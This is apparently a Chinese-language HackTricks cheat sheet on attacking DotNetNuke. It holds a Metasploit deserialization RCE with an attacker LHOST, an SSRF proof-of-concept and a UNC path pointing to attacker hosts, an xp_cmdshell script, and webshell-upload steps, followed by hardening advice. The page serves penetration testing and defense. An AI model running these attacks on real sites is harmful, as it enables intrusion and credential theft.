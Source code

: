 # DotNetNuke (DNN)

{{#include ../../banners/hacktricks-training.md}}

## DotNetNuke (DNN)

如果您以 **administrator** 身份登录 DNN，获取 **RCE** 很容易，但在过去几年中发布了一些 *unauthenticated* 和 *post-auth* 技术。以下备忘单收集了用于攻防工作的最有用原语。

---
## 版本和环境枚举

* 检查 *X-DNN* HTTP 响应头 - 通常会披露确切的平台版本。
* 安装向导在 `/Install/Install.aspx?mode=install` 中泄露版本（在非常旧的安装中可访问）。
* `/API/PersonaBar/GetStatus` (9.x) 返回一个 JSON blob，包含低权限用户的 `"dnnVersion"`。
* 您将在实时实例中看到的典型 cookie：
* `.DOTNETNUKE` – ASP.NET 表单身份验证票证。
* `DNNPersonalization` – 包含 XML/序列化的用户配置文件数据（旧版本 - 见下文 RCE）。

---
## 未经身份验证的利用

### 1. Cookie 反序列化 RCE  (CVE-2017-9822 & 后续)
*受影响版本 ≤ 9.3.0-RC*

`DNNPersonalization` 在启用内置 404 处理程序时在每个请求上被反序列化。因此，精心制作的 XML 可能导致任意小工具链和代码执行。
```
msf> use exploit/windows/http/dnn_cookie_deserialization_rce
msf> set RHOSTS <target>
msf> set LHOST  <attacker_ip>
msf> run
```
该模块自动选择适用于已修补但仍然易受攻击的版本的正确路径（CVE-2018-15811/15812/18325/18326）。在7.x–9.1.x上，利用攻击**无需身份验证**，在9.2.x+上则需要一个*经过验证*的低权限账户。

### 2. 服务器端请求伪造 (CVE-2025-32372)
*受影响版本 < 9.13.8  –  补丁于2025年4月发布*

绕过旧的`DnnImageHandler`修复使攻击者能够强迫服务器发出**任意GET请求**（半盲SSRF）。实际影响：

* 内部端口扫描/云部署中的元数据服务发现。
* 访问其他被防火墙隔离的主机。

概念验证（替换`TARGET`和`ATTACKER`）：
```
https://TARGET/API/RemoteContentProxy?url=http://ATTACKER:8080/poc
```
请求在后台触发；监控您的监听器以获取回调。

### 3. NTLM Hash泄露通过UNC重定向 (CVE-2025-52488)
*受影响版本 6.0.0 – 9.x (< 10.0.1)*

特制的内容可以使DNN尝试使用**UNC路径**获取资源，例如`\\attacker\share\img.png`。Windows将乐于进行NTLM协商，将服务器账户哈希泄露给攻击者。升级到**10.0.1**或在防火墙上禁用出站SMB。

### 4. IP过滤绕过 (CVE-2025-52487)
如果管理员依赖*Host/IP过滤器*来保护管理门户，请注意**10.0.1**之前的版本可以通过在反向代理场景中操纵`X-Forwarded-For`来绕过。

---
## 认证后到RCE

### 通过SQL控制台
在**`Settings → SQL`**下，内置查询窗口允许对站点数据库执行操作。在Microsoft SQL Server上，您可以启用**`xp_cmdshell`**并生成命令：
```sql
EXEC sp_configure 'show advanced options', 1;
RECONFIGURE;
EXEC sp_configure 'xp_cmdshell', 1;
RECONFIGURE;
GO
xp_cmdshell 'whoami';
```
### 通过ASPX Webshell上传
1. 转到 **`Settings → Security → More → More Security Settings`**。
2. 将 `aspx`（或 `asp`）附加到 **Allowable File Extensions** 并 **保存**。
3. 浏览到 **`/admin/file-management`** 并上传 `shell.aspx`。
4. 在 **`/Portals/0/shell.aspx`** 触发它。

---
## Windows上的权限提升
一旦以 **IIS AppPool\<Site>** 实现代码执行，常见的Windows权限提升技术适用。如果该系统存在漏洞，您可以利用：

* **PrintSpoofer** / **SpoolFool** 来滥用 *SeImpersonatePrivilege*。
* **Juicy/Sharp Potatoes** 来逃避 *Service Accounts*。

---
## 加固建议（蓝队）

* **升级** 至至少 **9.13.9**（修复SSRF绕过）或更好地 **10.0.1**（IP过滤和NTLM问题）。
* 安装后删除残留的 **`InstallWizard.aspx*`** 文件。
* 禁用出站SMB（端口445/139）流量。
* 在边缘代理上强制实施强大的 *Host Filters*，而不是在DNN内部。
* 如果不使用，阻止对 `/API/RemoteContentProxy` 的访问。



## 参考文献

* Metasploit `dnn_cookie_deserialization_rce` 模块文档 – 实用的未认证RCE细节（GitHub）。
* GitHub安全公告 GHSA-3f7v-qx94-666m – 2025 SSRF绕过和补丁信息。
{{#include ../../banners/hacktricks-training.md}}
